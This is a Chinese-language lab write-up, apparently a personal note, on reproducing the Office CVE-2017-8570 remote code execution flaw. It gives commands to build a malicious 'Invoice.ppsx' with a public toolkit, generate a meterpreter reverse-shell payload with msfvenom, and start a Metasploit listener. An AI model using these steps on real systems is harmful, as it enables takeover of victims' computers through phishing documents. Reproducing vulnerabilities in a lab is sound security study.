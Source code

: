 ```yaml
---
date: 2024-06-14
---
```


# CVE-2017-8570

> [Office CVE-2017-8570 远程代码执行漏洞复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2017/08/officecve.html#复现环境)
>
> [手冢冢/Office8570：CVE20178570 --- tezukanice/Office8570: CVE20178570 (github.com)](https://github.com/tezukanice/Office8570)
>
> ---
>
> [Office CVE-2017-8570漏洞复现-CSDN博客](https://blog.csdn.net/weixin_44283446/article/details/122035825)
>
> ---
>
> [Office CVE-2017-8570 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/08/office-cve-2017-8570-复现/)
>
> [Office CVE-2017-8570远程代码执行漏洞复现-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1047572)
>
> [CVE-2017-8570复现及编写脚本实现自动化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3772?time__1311=n4%2BxnD0DBDgDuADcQxlhAe0%3DePiKG%3D8OYss14D&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> ---
>
> [CVE-2017-8570 自动化 - Y4er的博客](https://y4er.com/posts/cve-2017-8570/)

- 测试环境: Win7+Office2016

---

## 简介

2017年7月，微软在例行的阅读补丁中修复了多个Microsoft Office漏洞，其中的CVE-2017-8570漏洞为一个逻辑漏洞。网上公布了利用代码，影响范围广泛。

该漏洞为Microsoft Office的一个远程代码执行漏洞。其成因是Microsof PowerPoint执行时会初始化“script”Moniker对象，而在PowerPoint播放动画期间会激活该对象，从而执行sct脚本(Windows script Component)文件。

可以欺骗用户运行含有该漏洞的PPT文件导致获取和当前登录用户相同的执行权限。

---

## 影响版本

```
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```

---

## 复现

- 攻击机
  - IP: `100.1.1.131`
  - `python 2.7`

- 靶机
  - IP: `192.168.5.11`
  - win7
  - Office2016


```bash
git clone https://github.com/tezukanice/Office8570.git
```

调整目录结构, 将 `template.ppsx` 放到 template 目录下

![image-20240613151844277](http://cdn.ayusummer233.top/DailyNotes/202406131518648.png)

```bash
# 生成恶意 PPSX 文件
python2 cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://100.1.1.131/logo.doc
```

![image-20240613152038446](http://cdn.ayusummer233.top/DailyNotes/202406131520504.png)

准备反弹Shell的exe文件

```bash
# 用 msf 的话
msfvenom -p windows/meterpreter/reverse_tcp LHOST=100.1.1.131 LPORT=6666 -f exe > shell.exe
## 若是 64 位操作系统的话
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.103 LPORT=6666 -f exe > shell.exe
```

将 `shell.exe` 放到项目目录下

![image-20240613152724555](http://cdn.ayusummer233.top/DailyNotes/202406131527625.png)

```bash
# 监听来自 ppsx 执行反弹 shell(ps:需要root权限)
python2 cve-2017-8570_toolkit.py -M exp -e http://100.1.1.131/shell.exe -l shell.exe
```

![image-20240613153318546](http://cdn.ayusummer233.top/DailyNotes/202406131533607.png)

```bash
# 用 msf 的话这里要设置 msf 监听
use exploit/multi/handler
set LHOST 100.1.1.131
set LPORT 6666
## for x86
set PAYLOAD windows/meterpreter/reverse_tcp
## for x64
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

将 Invoice.ppsx 放在靶机上用 PowerPoint 打开

![image-20240613153813982](http://cdn.ayusummer233.top/DailyNotes/202406131538069.png)

![image-20240613153916159](http://cdn.ayusummer233.top/DailyNotes/202406131539299.png)

![image-20240613154044274](http://cdn.ayusummer233.top/DailyNotes/202406131540452.png)

![image-20240613154205635](http://cdn.ayusummer233.top/DailyNotes/202406131542715.png)

---



















